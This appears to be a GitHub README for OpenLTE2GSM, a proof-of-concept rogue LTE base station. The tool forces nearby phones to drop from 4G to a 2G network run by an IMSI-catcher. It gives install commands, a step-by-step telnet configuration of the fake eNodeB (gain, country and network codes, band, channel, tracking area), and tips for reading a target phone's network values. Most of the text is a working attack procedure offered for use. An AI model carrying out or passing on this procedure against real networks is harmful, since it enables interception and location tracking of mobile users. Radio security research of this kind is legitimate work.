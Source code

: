 #Redirect 4G->2G (Simplified version)

##Install (Working on Ubuntu 20.04.4)

.. code:: bash

   git clone https://github.com/bbaranoff/OpenLTE2GSM
   cd OpenLTE2GSM
   sudo bash install.sh

##Running LTE Redirection Attack Updated with
https://github.com/bbaranoff/openlte2GSM

Redirect attack from long term evolution (LTE 4G) to global system
mobile (GSM 2G): article in progress

Tested with : LimeSDR-Mini + 2 Motorola (C1XX series osmocom-bb
compatibles) or BladeRF-xA4 + 2 Motorola or BladeRF-xA4 + LimeSDR-Mini

Phone in 2G/3G/4G mode This article is in progress and is just a PoC The
attack step are run the IMSI-catcher into arfcn 514 follow (see Build
IMSI-catcher) run the 4G redirector as follow

Shell #1

.. code:: bash

   sudo LTE_fdd_enodeb

Shell #2

.. code:: bash

   telnet localhost 30000
   write rx_gain 30
   write tx_gain 80
   write mcc 215
   write mnc 15
   write band 7
   write dl_earfcn 3350
   write tracking_area_code 6604

(change with your ue values be careful that the earfcn is in the band
you can have tracking_area_code via mobile testing mode *#0011# on
samsung or*\ #\ *#4636#*\ #\* on OnePlus for example)

Shell #2

.. code:: bash

   start

wait… and when you have “ok” answer in shell #2 and … enjoy !
